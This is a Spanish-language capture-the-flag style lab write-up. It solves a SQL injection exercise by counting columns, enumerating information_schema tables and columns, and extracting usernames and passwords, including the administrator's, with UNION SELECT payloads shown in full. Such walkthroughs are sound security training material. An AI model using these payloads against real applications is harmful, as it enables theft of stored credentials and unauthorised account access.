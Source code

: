 Tenemos el siguiente laboratorio:
![[Pasted image 20240517091323.png]]
Lo primero será determinar el número de columnas de la tabla, donde hay 2:
```bash
'+UNION+SELECT+NULL,NULL--
```
![[Pasted image 20240517091241.png]]
Ahora, vamos a conocer el listado de las tablas de la base de datos:
```bash
Gifts'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
![[Pasted image 20240517091412.png]]
Vemos la siguiente tabla de usuarios:
![[Pasted image 20240517092640.png]]
Y ahora para conocer las columnas de alguna de estas tablas, usamos el siguiente payload:
```bash
Gifts'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_gayrfn'--
```
Y obtenemos los nombres de usuario:
![[Pasted image 20240517092904.png]]
Ahora que ya tenemos tanto el usuario como la contraseña, hacemos la siguiente query:
```bash
category=Gifts%27+UNION+SELECT+username_blbvyc,password_kxmhvv+from+users_gayrfn--
```
![[Pasted image 20240517093322.png]]
Y vemos también la contraseña del usuario administrator:
![[Pasted image 20240517093354.png]]
Nos logueamos y ya hemos resuelto el laboratorio:
![[Pasted image 20240517093419.png]]
